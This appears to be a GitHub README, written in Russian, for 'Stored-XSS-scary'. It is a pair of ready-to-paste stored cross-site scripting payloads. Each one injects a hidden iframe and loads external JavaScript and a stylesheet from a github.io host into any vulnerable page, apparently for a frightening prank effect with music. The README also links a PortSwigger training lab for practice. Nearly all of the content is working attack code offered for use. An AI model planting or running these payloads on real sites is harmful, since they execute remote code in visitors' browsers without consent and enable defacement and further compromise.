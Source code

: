 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. Работает не во всех браузерах. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

------------------------------------------

Полная версия (музыка + CSS + доп. JS скрипты) [540 символов]:
> <script>var f=document.createElement("iframe");f.style.display="none";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r)}</script>

<br> Сокращенная версия (только музыка) [269 символов]:
> <script>var f=document.createElement("iframe");f.style.display="none";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)}</script>
